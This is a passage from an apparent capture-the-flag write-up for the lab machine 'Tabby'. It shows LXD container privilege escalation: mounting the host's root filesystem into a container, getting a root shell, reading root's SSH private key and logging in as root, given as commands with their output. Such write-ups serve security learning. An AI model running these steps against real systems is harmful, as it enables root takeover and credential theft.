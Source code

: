 **Forth**, mount host filesystem

	ash@tabby:~$ lxc config device add pwned mydevice disk source=/ path=/mnt/root recursive=true
	Device mydevice added to pwned
	ash@tabby:~$
	
**Fifth**, run image

	ash@tabby:~$ lxc start pwned
	ash@tabby:~$ lxc exec pwned /bin/sh
	~ # id
	uid=0(root) gid=0(root)
	~ # whoami
	root
	~ # cd /mnt/root
	/mnt/root # cd root/.ssh
	/mnt/root/root/.ssh # ls -la id_rsa
	-rw-------    1 root     root          2602 Jun 16 14:00 id_rsa

**Extra**, get ssh shell

`chmod 600 id_rsa`
	
`ssh -i id_rsa root@10.10.10.194`

	root@tabby:~# cat root.txt
	1b322db4************************